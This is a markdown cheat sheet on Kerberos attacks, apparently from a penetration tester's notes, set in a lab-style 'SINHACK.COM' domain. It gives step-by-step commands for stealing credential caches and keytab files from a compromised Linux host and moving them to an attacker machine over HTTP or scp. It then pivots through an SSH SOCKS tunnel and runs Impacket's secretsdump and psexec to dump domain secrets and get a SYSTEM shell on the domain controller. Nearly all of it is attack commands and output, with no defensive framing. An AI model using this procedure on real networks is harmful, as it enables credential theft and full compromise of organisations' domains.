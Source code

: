 # Kerberos Attacks

## Interesting files & Commands.
```bash
/etc/krb5.conf
/etc/krb5.keytab

# Find administrator credential cache 
env | grep KRB5CCNAME

# SMB Kerberos Authentication 
smbclient -k -U "SINHACK.COM\administrator" //DEV01.SINHACK.COM/C$
```

## Extracting keytab file

We can extract the krb5 keytab file using keytabextract to retrieve NTLM hash.

```bash
python3 keytabextract.py /etc/krb5.keytab
```

## Import and exploit kerberos ticket.

1. Copy the kerberos ticket and give it root right. Then download it.

```bash
target@sinhack03:/tmp$ sudo cp krb5cc_75401103_JMEyFf krb5cc_v0lk3n
target@sinhack03:/tmp$ sudo chown root:root krb5cc_v0lk3n 

target@sinhack03:/tmp$ sudo python -m SimpleHTTPServer 1337
Serving HTTP on 0.0.0.0 port 1337 ...
192.168.x.x - - [19/May/2021 14:27:51] "GET /krb5cc_v0lk3n HTTP/1.1" 200 -

```

2. Download the krb5.conf config file.

```bash
v0lk3n@sinhack03:/etc$ python -m SimpleHTTPServer 1337
Serving HTTP on 0.0.0.0 port 1337 ...
192.168.x.x - - [19/May/2021 14:22:03] "GET /krb5.conf HTTP/1.1" 200 -
```

3. Install kerberos tools on our kali

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sudo apt install krb5-user                                        
```

4. Now that kerberos is installed, remove the /etc/krb5.conf of our kali (if exist) and replace it with the one downloaded from the target machine.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sudo rm /etc/krb5.conf                                               
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sudo mv krb5.conf /etc/krb5.conf

```

5. Import the downloaded kerberos ticket, then list tickets to confirm that we successfully imported it.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ export KRB5CCNAME=/home/v0lk3n/krb5cc_v0lk3n  

┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ klist                                                                                               1 ⨯
Ticket cache: FILE:/home/v0lk3n/krb5cc_v0lk3n
Default principal: zack@SINHACK.COM

Valid starting       Expires              Service principal
19. 05. 21 20:17:53  20. 05. 21 06:17:53  krbtgt/SINHACK.COM@SINHACK.COM
        renew until 26. 05. 21 20:17:53

```

6. Once the ticket imported run a SSH tunnel on the target machine with the -D parameter.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ ssh target@192.168.x.x -D 9050                                
target@192.168.x.x's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)

```

7. Now that the tunnel has been created, and that the kerberos ticket is imported, we can run secretdump using proxychains, to dump the secret of DMZDC01.

```bash
──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/zack@DC01.SINHACK.COM -k -no-pass
```

Alternatively we can get a shell using psexec.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/zack@dc01.sinhack.com -k -no-pass -debug
```

## Using Kerberos with Impacket

Impacket is available in Kali at /usr/share/doc/python3-impacket/

The module psexec allows us to perform actions on a remote Windows host.

1. To allow kali to connect to the Kerberos environment properly, we need first to copy our victim's stolen ccache file to our Kali VM, and set the KRB5CCNAME environment variable.

```bash
scp target@linuxvictim:/tmp/krb5cc_minenow /tmp/krb5cc_minenow

export KRB5CCNAME=/tmp/krb5cc_minenow
```

This will allow us to use the victim's Kerberos tickets as our own.

2. Install the Kerberos linux client utilities.

```bash
sudo apt install krb5-user
```

3. When prompted for a kerberos realm, we'll enter "sinhack.com". This lets the Kerberos tools know which domain we're connecting to.

4. We’ll need to add the domain controller IP to our Kali VM to resolve the domain properly. We can get the IP address of the domain controller from the linuxvictim VM by running "host sinhack.com" command.

5. Now add the domain controller (corp1.com) IP to the /etc/hosts file on kali

```
192.168.x.x SINHACK.COM DEV.SINHACK.COM
```

This allow Kerberos to properly resolve the domain names for the domain controller.

In order to use our Kerberos tickets, we will need to have the correct source IP, which in this case is the compromised linuxvictim host that is joined to the domain. 

Because of this, we’ll need to setup a SOCKS proxy on linuxvictim and use proxychains on Kali to pivot through the domain joined host when interacting with Kerberos.

6. We’ll need to comment out the line for proxy_dns in /etc/proxychains.conf to prevent issues with domain name resolution while using proxychains.

7. We need to set up a SOCKS server using ssh on the server we copied the ccache file from.

```bash
ssh target@linuxvictim -D 9050
```

The -D parameter specifies the port we'll be using for proxychians in order to tunnel kerberos requests. This port is specified in /etc/proxychains.conf

8. Examine the list of domain users with GetADUsers.py

```bash
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.x.x SINHACK.COM/Administrator
```

9. Get a list of the SPNs available to our Kerberos user.

```bash
proxychains python3 /usr/share/doc/python3-
impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.x.x SINHACK.COM/Administrator
```

10. Get a shell on the server.

```bash
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DEV.SINHACK.COM -k -no-pass
```

Using Impacket’s psexec module and our stolen Kerberos tickets, we are now SYSTEM on the domain controller and can do whatever we please.
